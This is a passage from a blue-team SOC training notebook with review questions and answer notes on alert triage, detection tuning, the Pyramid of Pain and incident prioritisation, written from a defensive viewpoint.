2. Your SOC's MTTD is improving but MTTR is getting worse. Give two plausible explanations and how you would investigate each.
3. Explain, using the Pyramid of Pain, why a detection for "LSASS memory access by an unusual process" is more valuable than a blocklist of 500 malicious IP addresses — and name one downside of the behavioral detection.
4. Map a ransomware incident to the CIA triad, and explain how that mapping changes your response priorities versus a data-exfiltration incident.
5. Rewrite this poor escalation into a clean Tier 1 → Tier 2 handoff, inventing reasonable details: *"Weird login on an account, looks bad, someone should check it."*
6. Two alerts sit in your queue: a HIGH-severity malware alert on a nightly-rebuilt lab VM, and a MEDIUM-severity "new admin added to Domain Admins" alert on the production domain controller. Which do you open first, and what principle drives that choice?
7. A detection you tuned last week to reduce false positives has now correlated to a missed intrusion found by threat hunting. What went wrong conceptually, and how should tuning be done to avoid it?

### Answer notes

1. **Benign true positive**, not a false positive — the activity *really happened* (PsExec really ran) but it was authorized. The distinction matters because you should still verify the ticket and the account, and because closing it "FP" wrongly implies the rule misfired (which could lead someone to weaken a good detection). Close as benign TP with the ticket referenced.
2. Possible causes: (a) detections got faster but response is bottlenecked — too few Tier 2 responders, slow containment tooling, or approval delays; (b) the faster detections are catching *earlier-stage, subtler* intrusions that take longer to scope. Investigate by breaking MTTR into sub-phases (detect→acknowledge→contain→resolve) to find where time is lost, and by checking whether escalation volume rose.
3. IPs are trivial and cheap for an attacker to rotate (bottom of the pyramid), so a blocklist ages instantly; LSASS-access-by-an-unusual-process targets a *technique* (credential dumping) that is painful to change, catching many tools at once. Downside: behavioral detections are more prone to false positives (legitimate security tools also touch LSASS) and need careful tuning with allow-lists.
4. Ransomware attacks **integrity** (files altered/encrypted) and **availability** (systems unusable), so response prioritizes isolation to stop spread and restoration from known-good backups. Data exfiltration attacks **confidentiality**, so response prioritizes scoping exactly what was accessed and meeting notification/legal obligations — a different playbook driven by the different CIA leg.
5. A good rewrite names the account, both IPs with ASN/reputation, the devices, the specific post-auth actions with timestamps, the disposition and reasoning, and a concrete recommended action set — like the structured handoff in Part 8, Step 5.
6. Open the **domain-controller** alert first. Asset criticality outranks raw severity: a new Domain Admin on a production DC is a potential total-compromise event, while malware on a disposable lab VM is low-impact. This is the Part 13b prioritization principle.
7. The tuning likely *broadened suppression* (muted a whole source/subnet) rather than *narrowing with context* (excluding a specific known-benign case), creating a false negative. Tune by adding precise exclusions tied to verified-benign context, and always ask "could this also hide a real attack?" before applying it.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/blueteam-soc/01-defensive-foundations-soc-roles-tiers-and-defense-in-depth), with comments and the latest edits.*
